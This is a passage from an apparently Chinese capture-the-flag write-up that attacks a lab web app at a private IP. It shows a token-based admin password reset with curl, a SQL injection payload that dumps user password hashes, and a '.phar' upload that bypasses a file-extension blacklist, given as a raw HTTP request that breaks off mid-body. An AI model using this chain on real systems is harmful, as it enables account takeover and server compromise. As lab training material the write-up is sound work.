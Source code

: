 ```shell
90vwelDSuacG7I
90vwelDSuacG7Ix
90vwelDSuacG7Ix,

# ToKen:`90vwelDSuacG7Ix`
```
```bash
$ curl -XPOST -d "token=90vwelDSuacG7Ix&password=newpass" http://172.16.1.65/login/doChangePassword.php
# Ok 密码重置成功

# 再次使用脚本查看密码
pay = "select group_concat(password) from user"
exp(pay)


# 结果：
# e6053eb8d35e02ae40beeeacef203c1a,unaccessable_until_you_change_me


$# echo -n "newpass" |openssl md5
(stdin)= e6053eb8d35e02ae40beeeacef203c1a

# 结果意料之中

```
密码重置成功
`admin`:`newpass`
进行后台登录，在后台管理页面得到`FLAG1`
```shell
FLAG1: 0410e2bd77f66dc9a567ab00aa29599cd 
```


### upload-php-file
> 上传点
> 进入后台->item->顺便编辑一个

上传文件黑名单
`"php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6"`

我们使用`.phar`后缀进行上传

POST 上传数据
> 如果需要复制使用，需要你修改`Cookie`和`HOST`
```bash
POST /item/updateItem.php HTTP/1.1
Host: 172.16.1.65
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------40674686325473066152319269900
Content-Length: 939
Connection: close
Referer: http://172.16.1.65/item/editItem.php?id=1
Cookie: PHPSESSID=k39ut87e25fljlr8enuqjj8p97
Upgrade-Insecure-Requests: 1

-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="id"

1
-----------------------------40674686325473066152319269900
```